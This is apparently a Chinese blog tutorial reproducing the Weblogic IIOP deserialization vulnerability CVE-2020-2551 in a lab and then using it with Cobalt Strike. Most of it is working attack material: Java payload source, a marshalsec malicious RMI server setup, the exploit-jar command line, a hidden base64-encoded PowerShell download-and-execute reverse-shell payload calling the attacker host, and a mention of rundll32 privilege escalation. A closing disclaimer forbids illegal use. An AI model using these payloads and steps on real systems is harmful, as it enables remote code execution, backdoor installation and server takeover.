





Weblogic CVE-2020-2551漏洞复现&CS实战利用
Weblogic CVE-2020-2551漏洞复现
Weblogic IIOP 反序列化
漏洞原理
https://www.anquanke.com/post/id/199227#h3-7 https://www.cnblogs.com/tr1ple/p/12483235.html
漏洞复现
Weblogic CVE-2020-2551复现过程
靶机：windows7系统
IP地址：192.168.43.20
攻击机：windows10系统
IP地址：192.168.43.38
•工具下载地址https://pan.baidu.com/s/1N9oW3PtJJpkGC-W-LkgW9A 提取码：03vx
exp.javamarshalsec-0.0.3-SNAPSHOT-all.jarweblogic_CVE_2020_2551.jar
exp.java源代码
import java.io.IOException;public class exp {static{try {java.lang.Runtime.getRuntime().exec(new String[]{"cmd","/c","calc"});} catch (IOException e) {e.printStackTrace();}}public static void main(String[] args) {}}
1、在exp.java中修改执行的命令，编译生成exp.class
javac exp.java -source 1.6 -target 1.6

2、用python启动一个web服务，需要与exp.class在同一文件夹
python -m SimpleHTTPServer 80python3 -m http.server 80

3、使用marshalsec起一个恶意的RMI服务
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.43.38/#exp" 1099

4、利用漏洞攻击使目标弹出计算器
java -jar weblogic_CVE_2020_2551.jar 192.168.43.20 7001 rmi://192.168.43.38:1099/exp//java -jar weblogic_CVE_2020_2551.jar 靶机IP地址 靶机端口 RMI服务


Cobalt strike工具实战利用
反弹sehll
1、启动cs团队服务器、客户端，生成powershell运行后门命令
2、修改powershell
Runtime.getRuntime().exec()函数解决
http://www.jackson-t.ca/runtime-exec-payloads.html
详情见Apache Shiro 反序列化漏洞复现（CVE-2016-4437）
https://www.cnblogs.com/renhaoblog/p/12971152.html
3、编写exp.class脚本
import java.io.IOException;public class exp {static{try {java.lang.Runtime.getRuntime().exec(new String[]{"cmd","/c","powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc cABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACAALQBuAG8AcAAgAC0AdwAgAGgAaQBkAGQAZQBuACAALQBjACAAIgBJAEUAWAAgACgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAHMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgA0ADMALgAxADMAOAA6ADgAMAAvAGEAJwApACkAIgA="});} catch (IOException e) {e.printStackTrace();}}public static void main(String[] args) {}}
•4、利用weblogic CVE-2020-2551漏洞反弹shell

rundll32.exe提权
•1、遇到创建用户失败，利用rundll32.exe进行用户提权
•2、用户创建成功
参考链接
Weblogic CVE-2020-2551复现
https://blog.csdn.net/weixin_44677409/article/details/106493733
声明
严禁读者利用以上介绍知识点对网站进行非法操作 , 本文仅用于技术交流和学习 , 如果您利用文章中介绍的知识对他人造成损失 , 后果由您自行承担

推荐阅读：

点赞，转发，在看
原创投稿作者：renbao